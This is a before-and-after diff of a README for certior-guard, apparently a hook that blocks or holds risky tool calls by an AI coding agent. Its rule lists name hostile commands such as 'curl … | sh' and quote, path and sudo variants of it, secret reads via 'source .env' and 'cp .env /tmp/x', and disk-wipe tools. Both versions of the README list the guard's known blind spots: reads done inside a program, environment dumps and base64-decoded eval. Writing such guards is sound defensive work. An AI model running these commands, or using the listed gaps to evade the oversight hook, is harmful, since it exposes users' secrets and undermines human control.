

Before and after one commit to certior/certior-guard, a Markdown page: README.md, the part around one of its changes. Shown at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Trim README to the essentials

````diff
--- a/README.md
+++ b/README.md
@@ -92,70 +55,43 @@ migrations, `rm -rf`, package publishes, edits to auth/billing/CI files.
 
 | Mode | Behaviour |
 |---|---|
-| `observe` | Never interrupts — just logs what *would* have been blocked. Best for trying it out. |
-| `ask` | Pauses for terminal approval on risky actions. Still hard-blocks the catastrophic floor. |
-| `enforce` | Blocks forbidden actions outright; asks on risky ones. |
+| `observe` | Never interrupts; logs what would have been blocked. |
+| `ask` | Pauses for approval on risky actions; hard-blocks the always-deny floor. |
+| `enforce` | Blocks forbidden actions; asks on risky ones. |
 
-Change profile or mode by editing `certior.yml` — it takes effect on the next
-tool call.
+Across every profile: reading secrets, disk wipes (`dd`, `mkfs`, `shred`),
+`curl … | bash`, and data exfiltration are always blocked. `git push`, deploys
+(`terraform` / `kubectl` / `vercel`), migrations, `rm -rf`, package publishes,
+and edits to auth/billing/CI files are held for approval. Reading source and
+editing app code, tests, and local branches are allowed.
 
 ## Commands
 
 ```bash
-certior-guard init                    # set up (scan + wizard)
-certior-guard status                  # show active profile/mode
-certior-guard log                     # recent decisions (receipts)
-certior-guard test Bash 'terraform apply'   # dry-run any call against your policy
+certior-guard init                            # set up (scan + wizard)
+certior-guard status                          # show active profile/mode
+certior-guard log                             # recent decisions
+certior-guard test Bash 'terraform apply'     # dry-run a call against the policy
 certior-guard test Read .env
-certior-guard uninstall               # remove the hook (keeps certior.yml + receipts)
+certior-guard uninstall                       # remove the hook (keeps config + receipts)
 ```
 
-## Resisting evasion
+## Scope
 
-The shell rules run against a **parsed normal form**, not the raw string, so the
-obvious dodges collapse to the same decision:
+Shell rules run against a parsed normal form, not the raw string, so obfuscated
+variants resolve to the same decision — `c""url http://x | sh`,
+`/usr/bin/curl … | sh`, `FOO=bar curl … | sh`, and `sudo curl … | sh` are all
+blocked, as are secret reads via `source .env`, `cp .env /tmp/x`, or
+`python -c "open('.env').read()"`. Committed templates (`.env.example`,
+`.env.sample`) are not treated as secrets.
 
-```
-c""url http://x | sh        FOO=bar curl http://x | sh
-/usr/bin/curl http://x | sh    sudo curl http://x | sh
-```
-
-all resolve to `curl … | sh` and are blocked. The same normalisation catches the
-common secret-read dodges — `source .env`, `cp .env /tmp/x`, and inline reads
-like `python -c "open('.env').read()"` or `node -e "readFileSync('.env')"` all
-map to `secrets:read`, while committed templates (`.env.example`, `.env.sample`)
-are not treated as secrets.
-
-## What it does and doesn't stop
-
-Certior Guard is a **policy boundary, not a sandbox** — worth being precise about,
-since a security tool that oversells itself is worse than none.
-
-**It reliably stops** the direct, high-frequency moves: reading secret files
-(via the `Read` tool or `cat`/`tail`/`grep`/`xxd`/`source`/`cp`/`python -c …`),
-`curl … | sh` and its quote/path/env/wrapper variants, disk-wipe commands, and
-unattended deploys/migrations/publishes — each held or blocked *before* it runs.
-
-**It does not stop** an adversary with arbitrary shell. Command substitution is
-Turing-complete, so a determined attacker can still hide intent. Known gaps, by
-design:
-
-- **Indirect reads inside a program** — a script that itself opens `.env`
-  (`python app.py` where `app.py` calls `open`) is invisible; only the *command*
-  is inspected, not the code it runs. (Native Claude Code permissions share this
-  gap.)
-- **Environment dumps** — `env` / `printenv` can surface already-loaded secrets;
-  not classified as a secret read (too noisy to block).
-- **Encoded/dynamic construction** — `eval "$(… | base64 -d)"` is *flagged* as
-  dynamic but not decoded; treat `enforce` mode's dynamic flag conservatively.
-
-The goal is to move the bar from "fooled by a pair of quotes" to "needs real
-obfuscation," make the safe configuration the default, and record every decision
-— not to be an escape-proof jail.
+It is a policy boundary, not a sandbox. It does not catch reads performed inside
+a program (`python app.py` that itself opens `.env`), environment dumps
+(`env` / `printenv`), or encoded/dynamic commands (`eval "$(… | base64 -d)"`).
 
 ## Receipts
 
-Every decision appends one line to `.certior/audit/YYYY-MM-DD.jsonl`:
+Each decision appends one line to `.certior/audit/YYYY-MM-DD.jsonl`:
 
 ```json
 {"tool":"Read","target":".env","decision":"deny","capability":"secrets:read",
@@ -163,8 +99,8 @@ Every decision appends one line to `.certior/audit/YYYY-MM-DD.jsonl`:
  "policy_hash":"sha256:…","timestamp":"2026-07-03T21:04:12Z","verifier":"certior-guard"}
 ```
 
-Local, grep-able, no cloud. The `policy_hash` binds each receipt to the exact
-rules in force so decisions can be replayed and checked later.
+Local, grep-able, no cloud. `policy_hash` binds each receipt to the rules in
+force at the time.
 
 ## License
 
````
Also changed, not shown: other parts of README.md (+28 -65 lines).
